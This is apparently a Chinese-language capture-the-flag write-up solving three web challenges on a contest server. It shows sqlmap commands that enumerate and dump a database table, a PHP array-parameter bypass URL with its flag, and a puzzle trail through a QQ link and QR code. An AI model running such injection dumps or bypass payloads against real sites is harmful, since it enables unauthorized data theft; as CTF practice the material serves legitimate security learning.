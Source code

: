 ### 注入热身

没环境, 暂时没做.

---
好了现在开 Kali 了, sqlmap 全自动

* 获取当前使用的数据库

```sh
python sqlmap -u http://ustb.everctf.com:30009/?id=1 --current-db

```

![](2019-04-01-11-50-43.png)

* 获取当前使用的数据库的所有数据表

```sh
python sqlmap -u http://ustb.everctf.com:30009/?id=1 -D sqli --tables
```

![](2019-04-01-11-50-09.png)

* 显示当前数据表的所有值

```sh
python sqlmap -u http://ustb.everctf.com:30009/?id=1 -D sqli -T flag --dump
```

![](2019-04-01-11-49-21.png)

好了, 大功告成

### 否认三连

查看源代码, 好吧, 代码审计。。。
还是一样的, 用数组暴力解决
构造 http://ustb.ever404.com:30012/index.php?justify1=wobushi&justify2[]=womeiyou&justify3[]=nibieluanshuoa&mark[]=
> everctf{pHp_C4n_Be_d4n9er0us}

### 404 的危机

打开控制台, 发现一个人的 qq, 看空间, 说说一条链接为
http://url.cn/5E6Ke7l
然而, 打不开啊!!!
好吧所谓的打开方式不对, 用浏览器打开, 得到一串很奇怪的网址: http://mat23kcc6hwgk3vx.onion/neo/uploads/190329/MATRIX_104334_QPK_second.jpg
看不懂这串网址。。。

---
算了, 再努力一次. 这一次, 重新打开
![](2019-04-02-17-04-55.png)
md, 图床挂了。。。是的挂了。。。
扫描二维码获得 flag
> flag{7861495462475a393747634a6e686c41436f57766c413d3d}
我特么还以为又是一串密文, 还想了一下要不要解密, 结果试了一下, 过了。。。
